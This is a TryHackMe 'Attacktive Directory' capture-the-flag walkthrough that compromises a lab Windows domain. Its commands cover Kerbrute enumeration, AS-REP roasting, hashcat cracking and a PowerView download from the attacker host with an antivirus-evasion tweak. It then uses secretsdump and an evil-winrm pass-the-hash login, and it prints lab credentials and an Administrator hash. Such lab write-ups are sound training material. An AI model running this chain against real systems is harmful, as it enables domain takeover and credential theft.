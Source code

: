 ```yaml
---
date: 2025-03-05
categories: [CTF, THM]
title: "THM - Attacktive Directory"
tags: ['hashcat', 'impacket', 'ldap', 'linux', 'nmap', 'privilege escalation', 'rce', 'secretsdump', 'smb']

description: "Attacktive Directory - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - Attacktive Directory

- NMAP

![image1](../resources/406f6695291c4749b73606d43103c777.png)

```bash
nmap -n -sV --script="ldap\* and not brute" 10.10.123.209

```

![image2](../resources/21a0bb4a8c6f4a85aae827c8b08b2bc6.png)


![image3](../resources/9492bebb8acc4b4ba0a00b63e7eb4863.png)

- Enumerate users with Kerbrute:

```bash
./kerbrute userenum --dc 10.10.123.209 -d spookysec.local userlist.txt -o validusers.txt

```
(Using the provided userlist to cut down on enumeration time)


![image4](../resources/6359efe477b946ac8545e0890e13b941.png)

- Cut fields:

```bash
cat validusers.txt | cut -d " " -f 8 > validusers_edited.txt

```

![image5](../resources/f5253e54d5314db4b0bfe97dda247c0b.png)

- ASRepRoasting:

```bash
impacket-GetNPUsers spookysec.local/ -users validusers_edited.txt -no-pass -dc-ip 10.10.123.209

```

![image6](../resources/d3be60a69983476c9760e5c8d889d8ec.png)

- Copy hash to file (hash)

- Crack with hashcat:

```bash
hashcat -m 18200 --force -a 0 hash /usr/share/wordlists/rockyou.txt

```

![image7](../resources/1ae9a47ff79b4940b6d6c3ca4499140a.png)

Got credentials: **svc-admin : management2005**

- RDP:

```bash
xfreerdp /v:10.10.123.209 /u:svc-admin /p:management2005 /dynamic-resolution /cert:ignore

```

![image8](../resources/5dc5c24db85646779d67504c1dcee02b.png)

- Enumeration:

```bash
query user

```

![image9](../resources/31fd3fe9bc5a4b87918a76b586d7c82e.png)

Only us logged in

- Upload PowerView.ps1:

```bash
(New-Object System.Net.WebClient).DownloadFile('http://10.8.24.66:8080/PowerView.ps1', 'C:\Users\svc-admin\PowerView.ps1')

```

![image10](../resources/7e283975acf14b2baa546b84c5a43bb1.png)

**<u>AV Workaround for PowerView:</u>**

```bash
  sed '/<#/,/#>/d' PowerView.ps1 > new_powerview.ps1
```

![image11](../resources/8f4a6f3f7f224933b636c0945ab94248.png)

```bash
(New-Object System.Net.WebClient).DownloadFile('http://10.8.24.66:8080/new_powerview.ps1 ', 'C:\Users\svc-admin\new_powerview.ps1 ')

```

![image12](../resources/7c9c5805aca0431eaab9663b5f7a3834.png)

Loaded the updated script but still doesn't run

Moving on...

- With credentials - Run enum4linux again:

![image13](../resources/f0728b3d070c4777a2a719ecf0f26c13.png)

- We have a share /backup  
  Connect with:

```bash
smbclient //10.10.173.147/backup -U thm-ad/svc-admin%management2005

```

![image14](../resources/57ca31fa34ed4160afde9990a2c2f62f.png)


![image15](../resources/40e4302c66704969984b3bde4749c0e8.png)


![image16](../resources/6d7eb32d586949d0be9170b55476f895.png)

- Looks like base64:

```bash
echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d

```

![image17](../resources/9bba6007407a44c092521ae3afe1d9c7.png)

- We can see that there is a domain user called backup - and we have the creds:
**backup@spookysec.local:backup2517860**

- There is a clue in the THM Task description:

![image18](../resources/46edce029af74d30b3d70291f8247b03.png)

- To dump hashes use:

```bash
impacket-secretsdump spookysec.local/backup:backup2517860@10.10.173.147 -dc-ip 10.10.173.147

```

![image19](../resources/701bb2f608b14e8da350129bb4ae6a0f.png)

- You can use the hash with evil-winrm to connect:

```bash
evil-winrm -u Administrator -H 0e0363213e37b94221497260b0bcb4fc -i 10.10.173.147

```

![image20](../resources/bdbf6af48f124efdb9fad24dc703c072.png)


![image21](../resources/d2c6ad9920324007a48601c706585728.png)


![image22](../resources/e12d14a8e612485ba9f6176eae0e75b5.png)